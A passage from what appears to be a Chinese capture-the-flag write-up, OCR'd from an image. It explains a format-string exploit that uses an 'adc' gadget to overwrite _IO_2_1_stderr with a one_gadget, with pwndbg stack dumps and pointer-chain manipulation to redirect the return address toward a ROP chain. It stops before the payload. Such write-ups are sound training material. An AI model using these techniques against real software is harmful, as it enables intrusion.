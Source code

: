 ```
.text:00000000004006ED call    deregister_tm_clones
.text:00000000004006F2 pop     rbp
.text:00000000004006F3 mov     cs:completed_7594, 1
.text:00000000004006FA rep retn
'''
```

`adc     [rbp+48h], edx`这一条gadget可以用来的意思是将edx的值和[rbp+0x48]的值相加，并将结果存储在rbp+0x48中，我们可以将edx的值设置为onegadget和`_IO_2_1_stderr`的地址的差，将rbp设置为`stderr_ptr_addr-0x48`，于是通过这条指令就可以将`_IO_2_1_stderr`改写为onegadget。

现在开始完整的讲述利用流程，在第二次printf中，栈空间如下

```
00:0000│ rsp  0x7ffdcc6a2410 —▸ 0x4007c6 (main+160) ◂— mov    edi, 0
01:0008│      0x7ffdcc6a2418 —▸ 0x7fb6ff903e27 (_dl_fini+823) ◂— test   r13d, r13d
02:0010│ r14  0x7ffdcc6a2420 —▸ 0x7fb6ffb1a168 ◂— 0x298
03:0018│      0x7ffdcc6a2428 —▸ 0x7fb6ffb1a700 —▸ 0x7ffdcc763000 ◂— jg     0x7ffdcc763047
04:0020│      0x7ffdcc6a2430 —▸ 0x7fb6ffafc000 —▸ 0x7fb6ff529000 ◂— jg     0x7fb6ff529047
05:0028│ r10  0x7ffdcc6a2438 —▸ 0x7fb6ffb199d8 (_rtld_global+2456) —▸ 0x7fb6ff8f3000 ◂— jg     0x7fb6ff8f3047
06:0030│      0x7ffdcc6a2440 —▸ 0x7ffdcc6a2540 —▸ 0x4007d0 (__libc_csu_init) ◂— push   r15
07:0038│      0x7ffdcc6a2448 —▸ 0x7fb6ff903b74 (_dl_fini+132) ◂— mov    ecx, dword ptr [r12]
08:0040│      0x7ffdcc6a2450 —▸ 0x7ffdcc6a2420 —▸ 0x7fb6ffb1a168 ◂— 0x298
09:0048│      0x7ffdcc6a2458 ◂— 0x3000000010
0a:0050│      0x7ffdcc6a2460 —▸ 0x7ffdcc6a2530 —▸ 0x7ffdcc6a2620 ◂— 0x1
0b:0058│      0x7ffdcc6a2468 —▸ 0x7ffdcc6a2470 —▸ 0x7ffdcc763280 ◂— add    byte ptr ss:[rax], al /* '6' */
0c:0060│      0x7ffdcc6a2470 —▸ 0x7ffdcc763280 ◂— add    byte ptr ss:[rax], al /* '6' */
0d:0068│      0x7ffdcc6a2478 —▸ 0x7ffdcc6a2450 —▸ 0x7ffdcc6a2420 —▸ 0x7fb6ffb1a168 ◂— 0x298
0e:0070│      0x7ffdcc6a2480 ◂— 0x400001000
0f:0078│      0x7ffdcc6a2488 —▸ 0x7ffdcc6a2420 —▸ 0x7fb6ffb1a168 ◂— 0x298
10:0080│      0x7ffdcc6a2490 ◂— 0x400000000
11:0088│      0x7ffdcc6a2498 —▸ 0x7fb6ffb19048 (_rtld_global+8) ◂— 0x4
12:0090│      0x7ffdcc6a24a0 —▸ 0x7ffdcc6a2410 —▸ 0x4007c6 (main+160) ◂— mov    edi, 0
```

通过0090的栈我们可以修改返回地址，使程序重复读取，我们还需要将0008处的栈修改为rop链的存储地址

```
01:0008│      0x7ffdcc6a2418 —▸ 0x7fb6ff903e27 (_dl_fini+823) ◂— test   r13d, r13d
08:0040│      0x7ffdcc6a2450 —▸ 0x7ffdcc6a2420 —▸ 0x7fb6ffb1a168 ◂— 0x298
0d:0068│      0x7ffdcc6a2478 —▸ 0x7ffdcc6a2450 —▸ 0x7ffdcc6a2420 —▸ 0x7fb6ffb1a168 ◂— 0x298
看到上面这三条栈链，类似于第一题的做法，我们将
0d:0068│      0x7ffdcc6a2478 —▸ 0x7ffdcc6a2450 —▸ 0x7ffdcc6a2420 —▸ 0x7fb6ffb1a168 ◂— 0x298
修改为
0d:0068│      0x7ffdcc6a2478 —▸ 0x7ffdcc6a2450 —▸ 0x7ffdcc6a2418 —▸ 0x7fb6ff903e27 (_dl_fini+823) ◂— test   r13d, r13d
0040处的栈就变成了
08:0040│      0x7ffdcc6a2450 —▸ 0x7ffdcc6a2418 —▸ 0x7fb6ff903e27 (_dl_fini+823) ◂— test   r13d, r13d
这样我们就能通过修改0040处的栈来修改0008处的栈值了
```

payload如下
